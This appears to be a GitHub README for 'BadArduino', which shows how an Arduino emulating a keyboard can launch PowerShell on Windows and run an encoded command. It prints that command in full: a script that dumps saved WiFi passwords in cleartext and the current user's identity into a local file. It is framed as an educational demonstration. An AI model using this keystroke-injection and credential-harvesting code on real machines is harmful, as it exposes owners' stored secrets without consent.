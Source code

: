 
# BadArduino: Executing Commands on Windows with Arduino

This project is a demonstrative example of how to use an Arduino device to send predefined commands to a computer. The code shows how to simulate keystrokes and send commands to PowerShell using Arduino's keyboard emulation capabilities, with the `Keyboard.h` library.

⚠️ **WARNING**: This code is purely for illustrative and educational purposes. Misuse of such techniques may violate the law or security policies. Use this project only in a controlled environment and with the device owner's consent.

---

## Code Features

This code uses an Arduino (e.g., Arduino Leonardo or another device capable of keyboard emulation [`ATmega32u4 chip`]) to:
1. Open PowerShell using the Windows shortcut `Win + R`.
2. Execute a Base64-encoded PowerShell command, which is decoded and explained below.

> **Note:** Make sure to use the appropriate keyboard layout library for the target PC’s language. For example, `Keyboard_it_IT.h` for Italian, or another layout file that matches the intended language. This ensures that the keys are correctly interpreted on the destination system.

---

## Decoding the `EncodedCommand` Command

The Base64 encoded string executes a PowerShell command that collects various system information. Here is the original command:

```powershell
$filePath = "$env:USERPROFILE\test.txt";
$wifiProfiles = netsh wlan show profiles | Select-String "All user profiles" | ForEach-Object { ($_ -split ": ")[1].Trim() };
$output = "";
$wifiProfiles | ForEach-Object { $profile = $_; $profileInfo = netsh wlan show profile name="$profile" key=clear; $password = ($profileInfo | Select-String "Key Content").replace('^.*:\s*', ''); if (!$password) { $password = "N/A" }; $output += "Profile: $profile\nPassword: $password\n"; };
$userInfo = whoami;
$output += "`nUser Info: $userInfo`n";
$output | Out-File -FilePath $filePath;
notepad $filePath
```

This command saves a `test.txt` file containing information about WiFi profiles and other user information in the user's folder (`$env:USERPROFILE`).

---

## Execution Demo

When you connect the Arduino device, it automatically executes the programmed sequence as shown in the demo image:
![Demo](https://github.com/nemmusu/badarduino/blob/main/example/demo.gif)
The GIF demonstrates how the Arduino opens PowerShell and runs commands to collect information, storing it in a text file, which then opens in Notepad.

